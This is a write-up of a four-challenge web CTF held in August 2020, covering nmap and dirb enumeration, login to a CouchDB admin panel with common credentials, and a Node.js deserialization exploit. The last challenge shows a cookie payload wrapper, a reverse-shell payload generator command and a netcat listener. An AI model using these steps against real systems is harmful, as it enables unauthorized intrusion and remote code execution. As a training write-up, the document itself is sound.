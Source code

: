 # CTFFriday 2020 August Week 4

* Date: 28th August 2020
* Time: 2:00 to 3:00 PM

## Organized By

<kbd>![](NSCTFAUGW4/00.png)</kbd>   

 <span style="color:red"> Net Square Solutions Pvt. Ltd.</span>

## Overview

There were 4 challenges in this CTF related to web. CouchDB was used at the backend and we exploited Node JS deserialization to get the final flag.

## Tools Used
- BurpSuite
- Nmap
- Dirb


I started the CTF with port scanning using nmap tool.

```nmap -p- 10.8.0.14```

<kbd>![](NSCTFAUGW4/0.png)</kbd> 

## First Challenge

```
Description:

Sale team will help you to solve the first flag.

http://10.8.0.14/
```

In the challenge description, I got an URL and I visited that URL.

<kbd>![](NSCTFAUGW4/1.png)</kbd>

I also got the hint that "Sales" team will help me to get the flag so I enumerated the directories using **dirb** tool.

```dirb http://10.8.0.14/```
 
<kbd>![](NSCTFAUGW4/2.png)</kbd>

I visited the "sales" directory and I got the first flag.

<kbd>![](NSCTFAUGW4/3.png)</kbd>

*Flag : nsctf{Y0u_S0lved_Easy_fl@g!}*

## Second Challenge

```
Description:

Find out sales team's confidential details which stored on same server.
```

I clicked on "Confidential Details" button because challenge description says that I need to check confidential details.

<kbd>![](NSCTFAUGW4/4.png)</kbd>

After reading ```confidentials.txt``` file, I got the idea that **CouchDB** is used at backend and I need to login using common username and password combination. From the nmap scan we also got that port number ```5984``` is open and it is the default port of CouchDB. Now I need to find the login page. So I searched a bit regarding the default login page of CouchDB and I got that I need to visit the ```_utils``` directory.

<kbd>![](NSCTFAUGW4/5.png)</kbd>

I used  our common username and password for login. After login, I found one database named ```flag```.

<kbd>![](NSCTFAUGW4/6.png)</kbd>

 In ```permissions``` configuration of the database I got the flag.

<kbd>![](NSCTFAUGW4/7.png)</kbd>

*Flag : nsctf{S0m3_pr0+ect!0n_!5_b3tt3r_th@n_n0n3}*

## Third Challenge

```
Description:

HR Team store offer letter on vulnerable server. Its leaked by someone.
```

After that I checked the ```links``` database.

<kbd>![](NSCTFAUGW4/8.png)</kbd>

There were 4 documents in links database. Each document contains a directory link.

<kbd>![](NSCTFAUGW4/9.png)</kbd>

From the description, I got the idea that I have to look for HR directory.

<kbd>![](NSCTFAUGW4/10.png)</kbd>

So I visited the ```HR-Team/offer-letters.html```. There were 5 PDF links and I visited each link.

<kbd>![](NSCTFAUGW4/11.png)</kbd>

In 4th PDF, I found the third flag.

<kbd>![](NSCTFAUGW4/12.png)</kbd>

*Flag : nsctf{Y3s_You_d!d_!+!}*

## Fourth Challenge

```
Description:

Detect the vulnerability in HR page and exploit it to get the flag!
```

From nmap scan, I found that port number 3000 is open. So I visited that port from the web browser. It was asking for username and password. I tried to login using common username and password.

<kbd>![](NSCTFAUGW4/13.png)</kbd>

After login, application was showing "Under progress" page.

<kbd>![](NSCTFAUGW4/14.png)</kbd>

I intercepted the the request of the same page and found that application is sending cookie in request. Send the request to Buro Suite repeater and observe the response. From response I came to know that it can be Node JS deserialization. So I tried to exploit this vulnerability to get Remote Code Execution.  

<kbd>![](NSCTFAUGW4/15.png)</kbd>

I used the [script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) from github to get the reverse shell.

<kbd>![](NSCTFAUGW4/16.png)</kbd>

Run the downloaded script to generate the payload.
```python nodejsshell.py <YOUR_IP> <LISTENING_PORT>```

<kbd>![](NSCTFAUGW4/17.png)</kbd>

Put the payload between ```{"rce":"_$$ND_FUNC$$_function (){ <YOUR_PAYLOAD> }()*}```.

<kbd>![](NSCTFAUGW4/18.png)</kbd>

Encode the payload in base64.

<kbd>![](NSCTFAUGW4/19.png)</kbd>

Now refresh the same page and intercept the request.

<kbd>![](NSCTFAUGW4/20.png)</kbd>

Start the listener using  ```nc -lvp 4444``` and replace the cookie value with your encoded payload and forward the request.

<kbd>![](NSCTFAUGW4/21.png)</kbd>

You got the reverse shell!!

<kbd>![](NSCTFAUGW4/22.png)</kbd>

Now you just need to observe the flag.

<kbd>![](NSCTFAUGW4/23.png)</kbd>

*Flag : nsctf{H3y_y0u_d!d_!t}*

## CTF Statistics

<kbd>![](NSCTFAUGW4/scoreboard.png)</kbd>
